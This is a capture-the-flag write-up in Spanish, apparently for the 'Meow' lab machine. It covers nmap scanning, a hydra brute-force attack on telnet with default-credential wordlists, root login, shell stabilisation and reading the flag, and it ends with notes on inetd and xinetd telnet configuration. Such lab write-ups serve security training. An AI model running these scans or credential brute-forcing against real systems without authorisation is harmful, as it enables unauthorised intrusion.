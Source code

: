 🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.194.222

PING 10.129.194.222 (10.129.194.222) 56(84) bytes of data.
64 bytes from 10.129.194.222: icmp_seq=1 ttl=63 time=2105 ms

--- 10.129.194.222 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 2105.123/2105.123/2105.123/0.000 ms
```

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.194.222 -oG openPorts

PORT   STATE SERVICE REASON
23/tcp open  telnet  syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 23 -sCV 10.129.194.222 -oN targeted

PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

El sistema operativo identificado es **Linux**.

| Puerto | Servicio | Versión       |
| ------ | -------- | ------------- |
| 23     | telnet   | Linux telnetd |

¿Qué es telnet?  
[**RFC**](https://www.rfc-es.org/rfc/rfc0854-es.txt)

🗹 Buscar scripts de **nmap** relacionados al servicio **telnet**:

```shell
find /usr/share/nmap/scripts -name *telnet* 2>/dev/null

/usr/share/nmap/scripts/telnet-brute.nse
/usr/share/nmap/scripts/telnet-ntlm-info.nse
/usr/share/nmap/scripts/telnet-encryption.nse
```

🗹 Ejecutar scripts relacionados al servicio **telnet** sobre el puerto **23**:

```shell
sudo nmap -p 23 -n -Pn --script "*telnet*" 10.129.194.222
```

🗹 Establecer conexión con el servidor a través del servicio **telnet**:

```shell
telnet 10.129.194.222

Trying 10.129.194.222...
Connected to 10.129.194.222.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
```

🗹 Realizar ataque de fuerza bruta contra el servicio **telnet**:

```shell
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Default-Credentials/telnet-betterdefaultpasslist.txt 10.129.194.222 telnet

[DATA] attacking telnet://10.129.194.222:23/
[23][telnet] host: 10.129.194.222   login: root   password: NetLinx:password
[23][telnet] host: 10.129.194.222   login: root   password: root:calvin
[23][telnet] host: 10.129.194.222   login: root   password: user:user
[23][telnet] host: 10.129.194.222   login: root   password: localadmin:localadmin
[23][telnet] host: 10.129.194.222   login: root   password: amx:Amx1234!
[23][telnet] host: 10.129.194.222   login: root   password: root:default
[23][telnet] host: 10.129.194.222   login: root   password: amx:password
[23][telnet] host: 10.129.194.222   login: root   password: administrator:Amx1234!
[23][telnet] host: 10.129.194.222   login: root   password: admin:1988
[23][telnet] host: 10.129.194.222   login: root   password: cisco:cisco
[23][telnet] host: 10.129.194.222   login: root   password: root:fidel123
[23][telnet] host: 10.129.194.222   login: root   password: Administrator:Vision2
[23][telnet] host: 10.129.194.222   login: root   password: admin:admin
[23][telnet] host: 10.129.194.222   login: root   password: Root:wago
[23][telnet] host: 10.129.194.222   login: root   password: administrator:password
[23][telnet] host: 10.129.194.222   login: root   password: Admin:wago
```

🗹 Establecer nuevamente la conexión con el servidor a través del servicio **telnet** y cuando pida loguearse ingresar el usuario **root**:

```shell
Meow login: root
```

🗹 Una vez establecida la conexión con el servidor configurar la terminal y personalizar el entorno de la terminal:

```shell
script /dev/null -c bash

ctrl + z

stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty size
stty rows 44 columns 183
```

### Root flag

La **flag** se encuentra en el directorio `/root/`:

`cat /root/flag.txt`

## Cositas aprendidas

✅ El archivo `/etc/inetd.conf` es un archivo de configuración utilizado por el demonio `inetd` en sistemas como Linux. `inetd` (abreviatura de "Internet services daemon") es un proceso que escucha en varios puertos de red para conexiones entrantes y, cuando se establece una conexión, inicia el servicio correspondiente.

```shell
cat /etc/inetd.conf

telnet stream tcp nowait telnetd /usr/sbin/tcpd /usr/sbin/in.telnetd
```

- `telnet` Es el nombre del servicio que el demonio `inetd` manejará.
- `stream` Indica el tipo de flujo de datos que maneja el servicio. En este caso, `stream` se refiere a una conexión TCP.
- `tcp`: Es el protocolo de transporte utilizado para el servicio. En este caso, es TCP (Transmission Control Protocol), que es un protocolo orientado a la conexión y confiable para la transmisión de datos.
- `nowait`: Indica que `inetd` no debe esperar a que el servicio se complete antes de aceptar nuevas conexiones. Esto significa que el servicio puede manejar múltiples conexiones simultáneamente.
- `telnetd`: Es el nombre del usuario o la cuenta bajo la cual se ejecutará el servicio.
- `/usr/sbin/tcpd`: Es el camino al demonio `tcpd` que se utilizará para controlar el acceso al servicio Telnet. `tcpd` es un demonio que proporciona seguridad y control de acceso para los servicios de red.
- `/usr/sbin/in.telnetd`: Es el path del programa que implementa el servicio Telnet en el sistema.

✅ El archivo `/etc/xinetd.d/telnet` es un archivo de configuración específico para el demonio `xinetd`, que es un super servidor de servicios de red en sistemas Unix-like, como Linux. Este archivo se utiliza para configurar y controlar cómo `xinetd` maneja el servicio Telnet.

```shell
cat /etc/xinetd.d/telnet

# default on
# description: The telnet server serves telnet sessions; it uses
# unencrypted username/password pairs for authentication.
service telnet
{
disable = no
flags = REUSE
socket_type = stream
wait = no
user = root
server = /usr/sbin/in.telnetd
log_on_failure += USERID
}
```

- `# default on`: Este comentario indica que el servicio Telnet está habilitado de manera predeterminada.
- `# description: The telnet server serves telnet sessions; it uses...`: Este comentario proporciona una descripción del servicio Telnet.
- `service telnet`: Esto indica que se está configurando el servicio Telnet.
- `disable = no`: Esta línea indica que el servicio Telnet está habilitado (`no` significa deshabilitado).
- `flags = REUSE`: Establece la bandera `REUSE`, que permite al servicio utilizar la misma dirección y puerto incluso si el servicio se ha detenido recientemente. Esto puede ayudar a mejorar la eficiencia en ciertas situaciones.
- `socket_type = stream`: Especifica que el tipo de socket es `stream`, lo que significa que el servicio utiliza conexiones TCP.
- `wait = no`: Indica que `xinetd` no debe esperar a que el servicio Telnet se complete antes de aceptar nuevas conexiones. Esto significa que el servicio puede manejar múltiples conexiones simultáneamente.
- `user = root`: Especifica el usuario bajo el cual se ejecutará el servicio Telnet. En este caso, se ejecutará como el usuario root.
- `server = /usr/sbin/in.telnetd`: Especifica la ubicación del programa `in.telnetd`, que es el servidor Telnet que maneja las conexiones entrantes.
- `log_on_failure += USERID`: Indica que se debe registrar la información del usuario (`USERID`) en caso de fallo de inicio de sesión.
